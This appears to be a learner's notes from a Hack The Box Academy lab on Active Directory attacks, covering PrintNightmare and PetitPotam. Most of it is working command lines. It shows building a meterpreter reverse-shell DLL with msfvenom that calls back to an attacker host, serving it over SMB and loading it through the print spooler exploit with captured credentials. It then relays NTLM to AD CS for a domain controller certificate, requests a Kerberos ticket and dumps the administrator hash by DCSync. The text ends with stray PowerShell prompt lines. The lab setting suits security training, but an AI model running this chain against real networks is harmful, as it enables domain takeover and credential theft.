 [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) found in the print spooler service.

Exploit to use: `https://github.com/cube0x0/CVE-2021-1675.git` developed by `cube0x0`

For this exploit to run, we need to use cube0x0’s version of impacket which can be achieved as;

```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

* `dollarboysushil@htb[/htb]$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'` → enumerating for ms-rprn
* `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll` → crafting dll payload
* `sudo smbserver.py -smb2support CompData /path/to/backupscript.dll` → creating SMB share using smbserver.py
* then start msf multi/handler
  * use explit/multi/handler set payload windows/x64/meterpreter/reverse\_tcp set lhost, set lport and run
* `sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'` → running the shell.

## **PetitPotam (MS-EFSRPC)**

[CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) allows unauthenticated attacker to coerce a DC to authenticate against another host using NTLM over the port 445

*   `sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController`

    starting ntlmrelay
*   `dollarboysushil@htb[/htb]**$** python3 PetitPotam.py 172.16.5.225 172.16.5.5`

    running [petitpotam.py](http://petitpotam.py) with attackerhost IP and DC ip to force DC to authenticate to our host when nrlmrelayx is running.

In our ntlmrelay running tab, we will see successfull login request and base64 encoded certificate for the domain controller.

Using the base64 certificate, we can use [gettgtpkinit.py](http://gettgtpkinit.py) tool to request TGT for the domain controller.

*   `python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache`

    The TGT will be saved to dc01.ccache file. lets set the KRBCCNAME env variable to that ccache
* `dollarboysushil@htb[/htb]**$** export KRB5CCNAME=dc01.ccache`

Using DC TGT lets do DCSync

*   `dollarboysushil@htb[/htb]$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL`


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist